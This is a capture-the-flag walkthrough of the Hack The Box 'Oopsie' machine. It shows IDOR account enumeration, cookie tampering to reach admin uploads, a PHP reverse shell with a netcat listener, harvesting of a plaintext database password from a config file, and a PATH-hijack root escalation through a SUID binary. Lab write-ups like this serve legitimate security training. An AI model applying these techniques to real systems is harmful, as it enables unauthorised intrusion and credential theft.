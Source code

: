# [HTB] Oopsie


## recon 
- [namp scan](./nmap.log)
	- p22 & p80 are open

- [gobuster scan](./gobuster.log)
	- found few sub-directories with _forbidden access_

- using burp-suite to crawl site
	- found `/cdn-cgi/login`


## hacking
- here we can see a login page, with _login as guest_ option
	- we are redirected to `/cdn-cgi/login/admin.php`
	- by clicking on _Account_ (on navbar), the url becomes `/admin.php?content=accounts&id=2`
		- here we can see `id` param set to `2`
		- if we set `id=1` (enter), we can see `34322	admin	admin@megacorp.com`
	- after clicking _Uploads_ (on navbar), it says `This action require super admin rights.`
		- there are two cookies: `role` & `user`
			- setting them to `admin` & `34322` resp. gives us access to the page
		- the uploads seems to be `Branding Image Uploads`

- setup & uploaded a _php reverse shell_ (from _Uploads_)
	- starting a listener `nc -lnvp 4444`
	- accessing it thr `http://<IP>/uploads/php-reverse-shell.php` 
		- found `/uploads` from gobuster which is _forbidden_, but files inside seems to work (can be called)
	- __successfully got a reverse shell!!__

- currently we are `www-data` (`whoami`)
	- enumerating system
	- found `/home/robert/user.txt` > `f2c74ee8db7983851ab2a96a44eb7981`
	- found `var/www/html/cdn-cgi/login/db.php` > `<?php $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage'); ?>`
		- got _username_=`robert` & _password_=`M3g4C0rpUs3r!`
			- successfully logged as _robert_ using ssh

- listing available groups `cat /etc/group`
	- `find -group bugtracker 2>/dev/null` > `./usr/bin/bugtracker`
		- `strings bugtracker` > `cat /root/reports/`
		- program executes with root prems
	- program executes the command (found in strings o/p) appended with given input
		- deduced from, if we enter a _number_ we get some error & if string we get something like `cat: /root/reports/test: No such file or directory`
	- to get root shell > `export PATH=/tmp:$PATH` > `cd /tmp` > `echo '/bin/sh' > cat` > `chmod +x cat`  (> `echo $PATH`)
	- now execute `bugtracker` program (& enter any character)
	- __successfully got a root shell!!__
	- found `/root/root.txt` > `af13b0bee69f8a877c3faf667f7beacf`
